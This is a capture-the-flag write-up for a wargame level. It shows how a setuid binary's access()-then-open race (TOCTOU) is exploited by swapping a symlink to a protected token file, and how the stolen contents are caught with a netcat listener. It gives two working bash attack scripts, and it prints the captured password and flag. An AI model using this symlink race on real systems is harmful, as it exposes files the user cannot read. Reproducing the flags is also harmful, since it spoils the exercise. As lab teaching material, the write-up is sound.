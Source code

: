 # Level 10

As `level10`, running `ls` gives us a binary called `level10` and a file named `token`. We don't have reading rights on the token but we can test the binary.

```shell
  $> ./level10 
  ./level10 file host
    sends file to host if you have access to it
  $> ./level10 token localhost
  You dont have access to token
  $> echo "valid" > /tmp/valid
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Unable to connect to host <VM-IP>
```

> This binary tries to connect on port `6969` of the given IP.

To understand what does the binary do we can use `ltrace`.

```shell
  $> ltrace ./level10 /tmp/valid 192.168.1.73
  __libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
  access("/tmp/valid", 4)                                      = 0
  printf("Connecting to %s:6969 .. ", "192.168.1.73")         = 35
  fflush(0xb7fd1a20Connecting to 192.168.1.73:6969 .. )                                          = 0socket(2, 1, 0)                                             = 3
  inet_addr("192.168.1.73")                                   = 0x4901a8c0
  htons(6969, 1, 0, 0, 0)                                     = 14619
  connect(3, 0xbffff70c, 16, 0, 0)                            = -1
  printf("Unable to connect to host %s\n", "192.168.1.73"Unable to connect to host 192.168.1.73     
  )    = 39
  exit(1 <unfinished ...>
  +++ exited (status 1) +++
```

After checking manuals for the listed functions, we can identify a vulnerability through [`access`](https://man7.org/linux/man-pages/man2/faccessat.2.html) called [time to check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) induced by a race condition.

> Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using [open(2)](https://man7.org/linux/man-pages/man2/open.2.html) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.

We need to open port `6969` and listen for requests. Achieving this with [`nc`](https://linux.die.net/man/1/nc) is trivial.

```shell
  $> 
```

> `-l` is used to listen for incoming connections and `-k` will make this listener lasting until termination rather that after the first received connection.

Now that `6969` is open, we can try to send data once more.

```shell
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Connected!
  Sending file .. wrote file!
```

On the `nc` side, we get the following.
```shell
  .*( )*.
  valid
```

So we can safely assume that if we can send and read `token`, we'll see the password for `flag10` prompted the same way as this test had. For this to work we'll need two scripts... One that does the attack...

```bash
#!/bin/bash

while true;
do
  touch /tmp/link
  rm -f /tmp/link
  ln -s /home/user/level10/token /tmp/link
  rm -f /tmp/link
done
```

> It creates a file on which we have read rights then deletes it to create a symbolic link with the same name that redirects to the file we want to extract the content.

... and one that runs the command in parallel.

```bash
#!/bin/bash

IP=`ifconfig | grep -A1 "eth3" | grep "inet" | cut -d ":" -f2 | cut -d " " -f1`

while true;
do
  /home/user/level10/level10 /tmp/link $IP > /dev/null
done
```
> It retrieves the IP automatically and discards any output. It will be helpful during the attack.

All we have to do now is to run those two scripts in background and use `nc` to catch the content of `token`.

```shell
  $> /tmp/race-condition.sh &
  $> /tmp/auto-send.sh &
  $> nc -lk 6969
  ...
  .*( )*.
  woupa2yuojeeaaed06riuj63c
  .*( )*.
  ...
```

Use this string to log as `flag10` and run `getflag` to finish this level.

```shell
  $> su flag10
  Password: woupa2yuojeeaaed06riuj63c
  $> getflag
  Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

So, `feulo4b72j7edeahuete3no7c` is the flag for this level.



